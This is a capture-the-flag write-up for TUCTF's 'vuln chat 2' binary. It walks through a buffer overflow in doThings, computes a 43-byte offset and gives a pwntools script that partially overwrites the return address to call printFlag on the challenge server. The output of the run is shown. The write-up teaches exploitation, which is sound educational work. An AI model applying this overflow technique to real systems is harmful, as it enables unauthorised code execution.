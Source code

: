 # vuln chat 2

Let's take a look at that binary:

```
$	file vuln-chat2.0 
vuln-chat2.0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=093fe7a291a796024f450a3081c4bda8a215e6e8, not stripped
$	pwn checksec vuln-chat2.0 
[*] '/Hackery/tuctf/vuln_chat2/vuln-chat2.0'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Let's run the elf to see what it does:

```
$	./vuln-chat2.0 
----------- Welcome to vuln-chat2.0 -------------
Enter your username: guyinatuxedo
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: You've proven yourself to me. What information do you need?
guyinatuxedo: The flag
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
```

The flag it gave us there is not the correct flag.

So we can see that it is pretty similar to the previous challenge. It prints texts, and prompts us for input twice. Let's take a look at the code (the part we will be looking at is the `doThings` function):

```
int doThings()
{
  char buf[20]; // [sp+1h] [bp-27h]@1
  char username[15]; // [sp+15h] [bp-13h]@1

  puts("----------- Welcome to vuln-chat2.0 -------------");
  printf("Enter your username: ");
  __isoc99_scanf("%15s", username);
  printf("Welcome %s!\n", username);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: You've proven yourself to me. What information do you need?");
  printf("%s: ", username);
  read(0, buf, 0x2Du);
  puts("djinn: Alright here's you flag:");
  puts("djinn: flag{1_l0v3_l337_73x7}");
  return puts("djinn: Wait thats not right...");
}
```

So we can see that it scans in 15 bytes of data into the char array `username`, so we can't overflow that. However it scans `0x2d` (45) bytes into `buf` which is only 20 bytes so we can overflow that. Let's take a look at the stack:

```
-00000027 buf             db 20 dup(?)
-00000013 username        db 15 dup(?)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

Let's find the offset between `buf` and the return address:

```
>>> 0x4 - -0x27
43
```

So offset is 43 bytes. So we can only overwrite the last two bytes of the return address. However luckily for us there is a function called `printFlag` which will print out the flag for us. When this function is called, the return address will be `0x8048668`, since that is the next instruction in main after `doThings` is called. Let's find the address of `printFlag`:

```
gdb-peda$ p printFlag
$1 = {<text variable, no debug info>} 0x8048672 <printFlag>
```

So the address of `printFlag` is `0x8048672`. Even though we can write only to the last two bytes of the return address, we can still call `printFlag`. This is because the first two bytes is the same, so we only need to overwrite the last two bytes to call `printFlag`. With this we can write our exploit:

```
#Import pwntools
from pwn import *

#Establish the target
#target = process('vuln-chat2.0')
target = remote('vulnchat2.tuctf.com', 4242)

#Print out the text up to the username prompt
print target.recvuntil('Enter your username: ')

#Send the username, doesn't really matter
target.sendline('guyinatuxedo')

#Print the text up to the next prompt
print target.recvuntil('guyinatuxedo: ')

#Construct the payload, and send it
payload = `0`*0x2b + "\x72\x86"
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

when we run the exploit:

```
$ python exploit.py 
[+] Opening connection to vulnchat2.tuctf.com on port 4242: Done
----------- Welcome to vuln-chat2.0 -------------
Enter your username: 
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: You've proven yourself to me. What information do you need?
guyinatuxedo: 
[*] Switching to interactive mode
djinn: Alright here's you flag:
djinn: flag{1_l0v3_l337_73x7}
djinn: Wait thats not right...
Ah! Found it
TUCTF{0n3_by73_15_4ll_y0u_n33d}
Don't let anyone get ahold of this
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vulnchat2.tuctf.com port 4242
```

Just like that, we captured the flag!
